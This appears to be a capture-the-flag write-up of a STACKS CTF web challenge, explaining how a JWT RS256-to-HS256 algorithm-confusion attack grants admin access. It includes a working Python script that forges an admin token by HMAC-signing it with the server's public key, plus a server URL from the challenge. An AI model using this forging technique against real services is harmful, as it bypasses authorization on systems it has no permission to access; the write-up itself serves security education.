







## Challenge Text



## Introduction

I've participated along with some friends in STACKS CTF which was organised by GovTech's Cyber Security Group (CSG). The challanges were impressive and fun. I've been holding off on writing this one since
I didn't have the time to do so (Uni and other activities) and I was waiting for the challenges to be released to the public. So here's a writeup about a web challenge that I've solved. It's about bypassing authorization and rule-based access control by exploiting a flaw in JWT.

## Let's dive in

When we visit the webpage we are greated by a login form. So let's try the credentials given in the challenge description and see what happens.



We can see that some form of rule-based access control is in play.
The next obvious step is to intercept our request using Burp Suite and see what we get.



The presence of a authorization header with a Bearer token indicates that JWT (JSON Web Token) is being used as an authorization mechanism.
You can find more details about JWT [here](https://jwt.io/introduction/), but in short, a JWT is a compact and self-contained method to transmit JSON
objects between parties, in this case client-server. After a successful login, the server generates a JWT for that specific session and sends it back to
the user. The server does so by setting a header, known as the authorization header, with the word "Bearer" concatenated with the value of the JWT.
From this point on, everytime the client requests access to any resource on the server, the request must contain this authorization header containing
the JWT. Otherwise, access will be denied to the client.
But it does not end here, in our case we have received our valid JWT but still we were denied access, why is that?
Well, JWT contains **claims** which are key-value pairs contained within the payload of the JWT, they are set by the server and assumed to be constant
for the rest of the session.
JWTs are not encrypted usually, they are only encoded using **base64** since no sensitive data should be stored in the payload. Lets decode our token and check what we have.



A JWT has a header, payload, and signature. As we can see in the payload, based on our login credentials, the server set our role to **user**. Note that any modification made to
the JWT will invalidate the signature and thus the server will end up rejecting our token, so we can't simply change the role to **admin**.
Okay, so at this point, I was already thinking about vulnerabilities in the JWT signing mechanism since I've seen something like this before. And the biggest clue was finding this comment
in the source of the login page.


Okay, that it! A public key that can be used to sign the JWT is all we need in this case. and the file containing that key wasn't hard to find, it was in the root folder: **http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/public.pem**.

## Forging our custom JWT

The JWT header contains the name of the algorithm that was used by the server to sign the token, in this case it's RS256.
RS256 utilizes **RSA** with SHA-256 to sign the token. Typically, the signing (encryption) is done by using the Private Key of the server, while the verification (decryption) of the JWT is done by using the Public Key of the server.
Meanwhile, another algorithm supported by JWT, known as HS256, utilizes **HMAC** with SHA-256 to sign the JWT. The main difference is that HS256 uses **Symmetric Key Encryption**. This means that both its signing and verification are done with one single key,
thus both issuer (server) and receiver (client) need to have the same key in order for the server to sign the token and for the client to verify the signature, that shared key is non other than **public.pem** which was specified in the HTML comment. This is the key to the exploit.
The server will attempt to validate the token uisng its public key by doing something like this:
```php
jwt.verify(token, publicKey)
```
But **publickey** here is the same as **public.pem** which we will use to sign our forged token, and by changing the algorithm to HS256, the server will deem our forged token to be valid since the same key (public.pem) is being used for both signing and verification, this is exactly how HS256 works.
This is known as the HS/RS confusion attack:
1. Change alg to **HS256**.
2. Modify the **role** claim to **admin** in the payload.
3. Re-sign the forged token with the key **public.pem**.

Note that this attack works only on unpatched versions of the JWT library. For example, node-jsonwebtoken defaults to disallowing the use of symmetric algorithms when the secret or public Key contains "BEGIN CERTIFICATE" and thus mitigating this specific vulnerability.

## Exploit (Python3)

```python
import base64, hmac, hashlib

with open("public.pem", 'r') as f:
    pubkey = f.read()

header = '{"alg":"HS256"}'
payload = '{"user":"minion","role":"admin","iat": 1607098377}'

headerBytes = base64.urlsafe_b64encode(header.encode('utf-8'))
encodedHeader = str(headerBytes, "utf-8").rstrip("=")

payloadBytes = base64.urlsafe_b64encode(payload.encode("utf-8"))
encodedPayload = str(payloadBytes, "utf-8").rstrip("=")

token = (encodedHeader + "." + encodedPayload)

signature = base64.urlsafe_b64encode(hmac.new(bytes(pubkey, "UTF-8"), token.encode("utf-8"),hashlib.sha256).digest()).decode("UTF-8").rstrip("=")

jwt = token+"."+signature
print(jwt)
```
After running our exploit we end up with our forged token which can be fed to the application through burp in our request to the **/unlock** page.



And we get the flag!!

